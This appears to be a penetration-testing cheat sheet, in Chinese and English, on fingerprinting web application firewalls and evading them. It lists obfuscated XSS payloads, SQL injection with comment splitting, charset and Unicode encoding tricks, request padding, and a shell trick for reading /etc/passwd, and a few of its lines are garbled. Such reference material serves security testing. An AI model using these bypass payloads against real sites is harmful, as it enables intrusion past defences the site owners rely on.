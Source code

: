 # Web Application Firewall (WAF)
https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2 <br>
## 手動識別 WAF
- WAF 的名稱Server 標題（例如Server: cloudflare）
- 與 WAF 相關的其他 HTTP 回應標頭（例如CF-RAY: xxxxxxxxxxx）
- 看似由 WAF 設定的 Cookie（例如回應標頭Set-Cookie: __cfduid=xxxxx）
- 提交惡意請求時的唯一回應代碼。 （例如412）
- 可以透過FIN/RST向伺服器發送 TCP 封包

## 自動化識別 WAF
1. Nmap
  - Nmap 腳本引擎 (NSE) 包含用於偵測和指紋辨識防火牆的腳本
  - $ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
2. WafW00f
  - 命令列實用程序
  - $ wafw00f example.com
3. WhatWaf

# Bypassing WAFs
## Bypassing Regex 繞過正規表示式
- 更改有效載荷的大小寫 :
    - <sCrIpT>alert(XSS)</sCriPt> 
- 使用各種編碼、替換函數或字元 :
    - 在前面加上一個額外的「<」:  << script>alert(XSS)</script >
    - 刪除結束標籤 :  <script>alert(XSS) //
    - 使用反引號取代代號代替 : <script>alert`XSS`</script>
- 使用其他語法以及使用換行符或製表符。
    - 雙開尖括號 : java%0ascript:alert ( http.com 
    - 不常見的標籤 : <"STYLE>.classname{background-image:url( "javascript:alert(XSS)" );/STYLE">
    - 需要繞過: <"img/src=1/onerror=alert(0)">
    - 額外字符 : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa href=javascript:alert(1)>xss</a">"

## Obfuscation 混淆 
- Function( "ale" + "rt(1)" )(); #使用除了 alert、console.log 和 prompt 之外的不常見函數javascript
- /? id =1+un/**/ion+sel/**/ect+1,2,3-- #在 SQL 查詢中使用註解來分解語句
- new Function`alt\`6\``; #使用反引號而不是括號
- data:text/html; base64 4mPHxNv564Fx2Fv)5(Q/html; base2W.編碼 javascript %26%2397;lert(1) #使用 HTML 編碼
- <a src= "%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm ( XSSDY #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # 在事件處理程序和等號之間使用任何非字母、數字或封裝字元（僅適用於 Gecko 引擎）

## Charset 字元集
- 修改Content-Type標頭以使用不同的字元集（例如ibm500）
- Python
$ python3  <br>
-- snip --  <br>
>>>  import urllib.parse <br>
>>>  s = '<script>alert("xss")</script>' <br>
 >>>  urllib.parse.quote_plus(s.encode( "IBM037" )) <br>
 'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n' <br>

- 將編碼後的字串傳送到請求正文中並上傳到伺服器 <br>
POST /comment/post HTTP/1.1 <br>
Host: chatapp <br>
Content-Type: application/x-www-form-urlencoded; charset=ibm500 <br>
Content-Length: 74 <br>
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3 <br>

## Content Size 內容大小
- 如果有效負載超過一定大小，則不會檢查請求
- add gibberi e.g 8kb char
## Unicode Compatibility
- 將視覺上不同的字元分解為相同的基本抽象字元
- NFC：規範化形式規範組合
- NFD：規範化形式規範分解
- NFKC：規範化形式相容性組合
- NFKD：範式相容性分解
e.g ＜img src=p onerror='prompt(1)'> --> ＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥
## Uninitialized Variables 未初始化
- Bash 將未初始化的變數視為空字串
- echo $u
- cat$u /etc%u/passwd$u

## Tools (Burp plugin)
- Bypass WAF
    - https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c
- WAF Bypadd
    - https://portswigger.net/bappstore/14c6fc737ce4468b807b80023d9740a8
    - 透過使用虛擬資料填充 HTTP 請求來繞過 Web 應用程式防火牆 (WAF)
- nowafpls
    - https://github.com/assetnote/nowafpls
